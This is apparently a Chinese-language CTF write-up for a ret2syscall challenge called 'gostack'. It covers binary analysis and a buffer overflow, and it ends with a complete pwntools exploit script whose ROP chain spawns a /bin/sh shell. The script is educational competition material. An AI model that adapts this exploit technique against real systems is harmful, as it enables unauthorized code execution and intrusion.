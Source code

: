 # 分析

这是一道ret2syscall题，file和checksec一下，程序64位，静态编译

![image-20240518154421081](image/image-20240518154421081.png)

![image-20240518153951289](image/image-20240518153951289.png)

使用IDA查看main函数，结果很乱，我们使用字符串查找和引用找到程序函数地址0x4A0880，分析函数

<img src="image/image-20240518154937255.png" alt="image-20240518154937255" style="zoom:67%;" />

由于函数太复杂，运行程序进行配合分析，了解其功能，由于有输入，对输入进行判断是否有溢出

![image-20240518155040492](image/image-20240518155040492.png)

测试溢出为0x102，再结合程序结构，构造payload

![image-20240518155434216](image/image-20240518155434216.png)

接下来就是构造溢出和ROP

![image-20240518155956473](image/image-20240518155956473.png)

ROP利用syscall构造出read函数读入我们的`"/bin/sh"`,紧接着构造出`syscall('/bin/sh',0,0)`

# exp



```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p=remote('8.147.132.163',36068)
p=process('./gostack')
elf=ELF('./gostack')
syscall=0x404043
bss=0x5633A0
pop_rax=0x40f984
pop_rdi_6=0x4a18a5
pop_rsi=0x42138a
pop_rdx=0x4944ec
ret=0x40201a
bin_sh=b'/bin/sh\x00'
payload=flat(cyclic(0x100),p64(bss),p64(0x10),p64(0)*0x18,p64(ret),p64(pop_rax),p64(0),p64(pop_rdx),p64(0x10),p64(pop_rsi),p64(bss),p64(pop_rdi_6),p64(0)*6,p64(syscall))
payload+=flat(p64(pop_rax),p64(0x3b),p64(pop_rdx),p64(0),p64(pop_rsi),p64(0),p64(pop_rdi_6),p64(bss),p64(0)*5,p64(syscall))
p.sendline(payload)
p.sendline(bin_sh)
p.interactive()
```

